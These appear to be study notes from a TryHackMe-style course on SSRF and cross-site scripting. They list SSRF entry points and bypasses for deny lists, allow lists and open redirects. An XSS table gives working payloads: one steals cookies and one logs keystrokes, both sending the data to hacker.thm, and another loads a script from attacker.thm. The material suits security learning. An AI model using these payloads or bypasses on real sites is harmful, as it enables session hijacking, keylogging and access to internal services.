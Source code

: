 ### Spotting an SSRF
1. When a full URL is used in a parameter in the address bar.
2. A hidden field in a form: `<input type="hidden" name="server" value="http://server.website.thm/store">`
3. A partial URL such as just the hostname: `https://website.thm/form?server=api`
4. Or perhaps only the path of the URL: `https://website.thm/form?dst=/forms/contact`

### Defeating Common SSRF Defenses
1. Deny list,  bypass by using alternative localhost references such as 0, 0.0.0.0, 0000, 127.1, 127.*.*.*, 2130706433, 017700000001 or subdomains that have a DNS record which resolves to the IP Address 127.0.0.1 such as 127.0.0.1.nip.io.
2. Allow list, circumvent this rule by creating a subdomain on an attacker's domain name, such as https://website.thm.attackers-domain.thm. The application logic would now allow this input and let an attacker control the internal HTTP request.
3. Open Redirect, Take, for example, the link https://website.thm/link?url=https://tryhackme.com. This endpoint was created to record the number of times visitors have clicked on this link for advertising/marketing purposes. But imagine there was a potential SSRF vulnerability with stringent rules which only allowed URLs beginning with https://website.thm/. An attacker could utilise the above feature to redirect the internal HTTP request to a domain of the attacker's choice.

## Cross-site Scripting (XSS)
| Description | Example |
| - | - |
| Proof of Concept | `<script>alert('XSS');</script>` |
| Session Stealing | `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>` |
| Key Logger | `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>` |
| Business Logic | `<script>user.changeEmail('attacker@hacker.thm');</script>` |


### Reflected XSS
User-supplied data in an HTTP request is included in the webpage source without any validation.

```html
<div class="alert alert-danger">
    <p><script src="https://attacker.thm/evil.js"></script></p>
</div>
```
How to test for Reflected XSS:

You'll need to test every possible point of entry; these include:
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)

### Stored XSS
The XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.
